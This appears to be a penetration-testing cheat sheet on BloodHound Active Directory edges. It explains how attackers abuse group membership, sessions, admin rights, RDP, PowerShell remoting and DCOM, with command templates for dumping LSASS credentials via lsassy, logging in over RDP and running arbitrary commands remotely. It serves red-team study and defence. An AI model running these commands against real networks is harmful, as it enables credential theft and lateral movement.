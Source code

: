 
# Edges

## MemberOf
This edge indicates that the source node is a member of the target node (group).

## HasSession
This edge indicates that the destination node (a user) has an active session on the source node (computer).

## AdminTo
This edge indicates that the source node (user or group) has administrative rights on the destination node (computer).
So it is possible to read the credentials of active sessions out of the LSASS process.

```
$> lsassy -d <domainName> -u <user> -p <password> <targetComputer>
```

## CanRDP
This edge indicates that the source node (user or group) can RDP to the destination node (computer).

```
$> xfreerdp /u:<attackerUser> /d:<domain> /p:<password> /v:<targetComputer>
```

The session of a user who is already logged in will be terminated.
It is therefore worth checking first whether a session already exists.

## CanPSRemote
This edge indicates that the source node (user or group) can establish a session via Remote Powershell on the target node (computer).

```
PS> $SecPassword = ConvertTo-SecureString '<attackerPassword>' -AsPlainText -Force
PS> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\\<attackerUser>', $SecPassword)
PS> $session = New-PSSession -ComputerName <targetComputer> -Credential $Cred
PS> Invoke-Command -Session $session -ScriptBlock {Start-Process <command>}
PS> Disconnect-PSSession -Session $session
PS> Remove-PSSession -Session $session
```

## ExecuteDCOM
This edge indicates that the source node (user or group) is a member of the target node's (computer) local Distributed COM Users group.
This allows attackers to execute commands on the target computer.
